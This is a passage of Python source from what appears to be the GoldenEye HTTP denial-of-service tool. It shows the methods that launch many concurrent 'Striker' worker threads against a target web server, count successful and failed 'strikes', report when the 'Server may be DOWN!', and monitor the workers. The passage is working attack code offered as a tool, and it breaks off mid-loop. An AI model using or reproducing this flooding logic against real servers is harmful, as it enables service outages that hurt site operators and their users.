     # Do the fun!
    def fire(self):

        self.printHeader()
        print("Hitting webserver in mode '{0}' with {1} workers running {2} connections each. Hit CTRL+C to cancel.".format(self.method, self.nr_workers, self.nr_sockets))

        if DEBUG:
            print("Starting {0} concurrent workers".format(self.nr_workers))

        # Start workers
        for i in range(int(self.nr_workers)):

            try:

                worker = Striker(self.url, self.nr_sockets, self.counter)
                worker.useragents = self.useragents
                worker.method = self.method

                self.workersQueue.append(worker)
                worker.start()
            except Exception:
                error("Failed to start worker {0}".format(i))
                pass

        if DEBUG:
            print("Initiating monitor")
        self.monitor()

    def stats(self):

        try:
            if self.counter[0] > 0 or self.counter[1] > 0:

                print("{0} GoldenEye strikes hit. ({1} Failed)".format(self.counter[0], self.counter[1]))

                if self.counter[0] > 0 and self.counter[1] > 0 and self.last_counter[0] == self.counter[0] and self.counter[1] > self.last_counter[1]:
                    print("\tServer may be DOWN!")

                self.last_counter[0] = self.counter[0]
                self.last_counter[1] = self.counter[1]
        except Exception:
            pass # silently ignore

    def monitor(self):
        while len(self.workersQueue) > 0:
            try:
                for worker in self.workersQueue:
                    if worker is not None and worker.is_alive():
                        worker.join(JOIN_TIMEOUT)
                    else:
                        self.workersQueue.remove(worker)
